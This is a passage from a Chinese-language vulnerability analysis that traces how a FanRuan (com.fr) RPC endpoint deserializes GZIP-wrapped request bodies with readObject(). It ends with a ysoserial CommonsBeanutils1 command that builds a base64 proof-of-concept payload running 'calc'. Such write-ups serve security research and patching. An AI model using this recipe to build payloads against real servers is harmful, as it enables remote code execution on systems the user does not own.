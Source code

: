 也就是说步入 `var1.deserialize(var2)` 到 `com.fr.serialization.GZipSerializerWrapper#serialize`：（这里 `var1` 又被包装一次）

```java
public T deserialize(InputStream var1) throws Exception {
	GZIPInputStream var2 = new GZIPInputStream(var1);
    return this.serializer.deserialize(var2);
}
```

步入到哪里要看 `this.serializer` 是什么，现在看看 `this.serializer` 。之前知道是 `InvocationSerializer.getDefault()`，返回的是 `new InvocationSerializer()`。也就是说 `this.serializer.deserialize(var2)` 是 `InvocationSerializer.deserialize(var2)`。

**com.fr.rpc.serialization.InvocationSerializer#deserialize**

```java
public Invocation deserialize(InputStream var1) throws Exception {
        CustomObjectInputStream var2 = new CustomObjectInputStream(var1);
        InvocationSerializer.InvocationPack var3 = (InvocationSerializer.InvocationPack)var2.readObject();
        Map var4 = (Map)var2.readObject();
        Invocation var5 = var3.toInvocation(this.readParams(var3.params));
        var5.getMetadata().putAll(var4);
        return var5;
    }
```

`CustomObjectInputStream` 包装一次 `var2` 之后，可以看到代码里面有两个 `var2.readObject()`。

## 数据流向

`var` 的流向大概就是以下流程：

```
请求体的字节表示：	byte[] var0
包装1：			ByteArrayInputStream var1 = new ByteArrayInputStream(var0);
包装2：			GZIPInputStream var2 = new GZIPInputStream(var1)
包装3：			CustomObjectInputStream var3 = new CustomObjectInputStream(var2)

反序列化：		   (Map)var3.readObject()

说明：
CustomObjectInputStream() 相当于 ObjectInputStream() 
```

## 构造 PoC

使用 CB 链去构造 Payload。

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "calc" |base64
```

## Prompt
